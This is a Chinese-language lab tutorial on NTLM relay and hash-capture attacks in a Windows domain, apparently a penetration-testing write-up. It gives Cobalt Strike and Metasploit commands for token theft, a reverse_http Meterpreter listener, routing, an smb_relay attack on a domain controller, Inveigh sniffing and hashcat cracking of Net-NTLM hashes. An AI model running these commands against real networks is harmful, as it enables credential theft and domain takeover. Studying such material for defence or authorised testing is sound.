# 1. 前置了解

与NLTM认证相关的安全问题主要有Pass The Hash、利用NTLM进行信息收集、Net-NTLM Hash破解、NTLM Relay几种。PTH前往期文章复现，运用mimikatz、impacket工具包的一些脚本、CS等等都可以利用，NTLM Relay又包括（relay to smb,ldap,ews）
可以应用在获取不到明文或HASH时采用的手法，但也要注意手法的必备条件。

## 1.1. MSF与CS切换权限

在正常CS或者MSF上线的时候，我们的目标通常是普通用户上线，如何提权到system权限，但是有时候需要使用到administrator，就会导致我们没有会话去连接，那么这里就是介绍一下，如何切换会话中的权限，同时要注意的是，低权限会话是无法切换至高权限的，但是高权限能够切换至低权限，相当于system权限能够切换到administrator，但是webadmin权限是无法切换至administrator权限的，这个是需要注意的。

简单来说，我们需要获取到最高权限才能降权限。

### 1.1.1. CS会话中切换权限

首先利用CS会话中高权限去查看进程，观察进程中有哪些是administrator权限再运行的，然后记录这个进程的PID值，其次切换PID值即可。

#### 1.1.1.1. 查看进程

这里我先提前给各位看了一下，我的现在的权限是system权限，然后使用ps查看了一下哪些是administrator权限再运行的，这里我看到一个PID号位2336的。

```
ps  ##查看运行进程
```



#### 1.1.1.2. 权限权限

这里可以看到我成功切换了权限。

```
steal_token 2336   ##切换权限  2336 是PID进程号
```



### 1.1.2. MSF会话中切换权限

这里我就不说进程了，是一样的操作，都是查进程记PID，然后切换，只是切换命令有点不同。

```
migrate 1992   #1992是PID号
```


# 2. NTLM中继攻击—Relay重放—SMB上线

在使用Relay重放的时候需要有一个前置条件，这个条件就是需要通讯的双方账户与密码是一致的，例如：Windows server 2012 DC中有administrator/admin@123，同时Windows server 2008 域内主机虽然登陆的是0day/webadmin，但是还是如果其中的administrator账户的与密码和DC是一样的，那么就可以进行访问，因为访问的时候默认是使用当前的账户密码去与对方的账户密码进行校验。

## 2.1. 案例测试

这里我们对DC进行测试一下，案例配置如下：

```
域控DC：192.168.3.142  administrator/admin@123
域内主机：192.168.3.10  administrator/admin@123
											 webadmin/admin@123
```

从上述也能够看出，密码都是一样的，只有账户存在不同，下面就来进行测试，看看是否验证了之前的说法。

### 2.1.1. 同账户密码测试

我将域内主机也切换到administrator，来进行测试，按照这个条件，那么此时的域控DC与域内主机是相同账户密码，可以看到直接就能够访问，并未出现什么报错。



### 2.1.2. 不同账户同密码测试

我将域内主机切换到webadmin，来进行测试，按照条件，目前是不同的账户，但是密码是相同的，可以看到这里直接就是拒绝访问，当然这里应该是账户密码错误的，这里拒绝访问应该是域控设置权限的问题。



## 2.2. CS联动MSF测试

先让域内主机上线CS，由于CS中没有相应的功能，需要使用联动MSF进行测试，同时这里要把传输过来的会话提权到systeam进行执行。

至于CS的上线操作这里就不多说了。

### 2.2.1. CS转发MSF上线

在上篇文章中已经介绍CS转发MSF上线了，这里就不提了，直接看操作，也不介绍了。

#### 2.2.1.1. 案例操作

注意这里一定要先run，然后CS再进行操作，不然容易监听不起来。

```
CS：新建会话，会话选择监听的那个MSF，也可以使用命令：spawn msf
MSF：设置监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 3010
run
```



#### 2.2.1.2. 添加路由

由于域控是在内网中，所以需要给会话添加一个相应的路由，这样MSF就能够连接域内主机。

```
run autoroute -p ##查看当前路由表
run post/multi/manage/autoroute ##添加当前路由表
backgroup ##返回
```



### 2.2.2. 重放模块攻击

这里就需要使用到SMB重放模块进行攻击，这里看完下面的操作，再看图就能看懂了，同样前提条件就是账号密码相同，才能利用成功，如果不同就无法利用。



#### 2.2.2.1. 模块设置

这里我就直接说了并未成功，只返回了hash值，但是会话并未建立起来，我查询了一下，确实网上很多文章都未成功，不过也有说64位系统未成功，但是32位系统成功了，这.......所以我也不想切换32位系统进行测试了，如果只有32位系统能够成功，那真的就太鸡肋了，同时还有一种情况，目前更新的msf都是新的，会不会是msf模块中的一个小bug问题，所导致的。

```
use exploit/windows/smb/smb_relay
set smbhost 192.168.3.142   #攻击目标
set lhost 192.168.10.20   #设置本地 IP
set autorunscript post/windows/manage/migrate
set payload windows/meterpreter/bind_tcp  ##设置正向连接
set rhost 192.168.3.142 #设置连接目标
run
```



#### 2.2.2.2. 访问设置

这里需要在被控主机上访问攻击主机地址，简单来说，就是被控主机去访问攻击机，将自生的账户密码相当于发送给攻击机，让攻击机获取到账号密码再去访问域控，实现攻击机中继拦截上线。

同时需要注意要使用administrator权限去操作。

```
dir \\192.168.10.20\c$
```



# 3. NTLM中继攻击-Inveigh嗅探-Hash破解

这个攻击手段就是攻击者在被控主机上伪造一个SMB服务器，当内网中有机器对被控主机进行SMB访问的时候，内网中的主机先访问攻击者伪造的SMB服务器，然后伪造的SMB服务器再将访问流量重放给被控主机，在这个过程中，内网主机是毫无感觉的，但是内网主机访问的用户的账号与密码的hash值均被伪造的SMB服务器获取。

[Inveigh嗅探](https://github.com/Kevin-Robertson/Inveigh)

[hash破解](https://github.com/hashcat/hashcat/)

这里由于我的虚拟机中都不止.net3.5，而且不知道为什么无法安装，也挺麻烦的，所以直接借鉴别人的加口述的，主要是操作很简单，不复杂，所以就懒得弄了。

## 3.1. 开启监听

这里不建议将这个监听，放在本地去监听，容易出现问题，由于工具并不是很大，可以将工具上传至被控服务器上，实际情况中如果被杀，那么就只能本地监听了。

这里还需要注意的是开启监听，一定要是内网主机都会访问这个主机，例如：开启监控的主机是域控，那你域内主机不访问域控的SMB那么就监听不到。

```
Inveigh.exe
```



## 3.2. 开始拦截

这里也是，你访问的一定要是那个被监听的域内主机，不然无法获取到。

```
dir \\192.168.3.x\c$
```



## 3.3. 钓鱼页面

这里可能会存在一个问题就是，我平时就不访问域控主机，而且谁闲着没事，使用dir去访问啊，而且域内使用者，都是办公人员，也不会这些操作，所以就需要设置一个钓鱼页面，挂载在内部的web解密中，或者你主动发送给域内主机。

```
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  
</body>
</html>
```

## 3.4. 破解密文

但是这里有问题哦，如果虚拟机配置不够是会出现报错的，这个破解可能是需要进行加密计算的，然后比对，所以配置低，可能无法运行那么打的并发吧。看配置是需要4h4g......

```
hashcat -m 5600 hash1 pass2.txt  --show
```

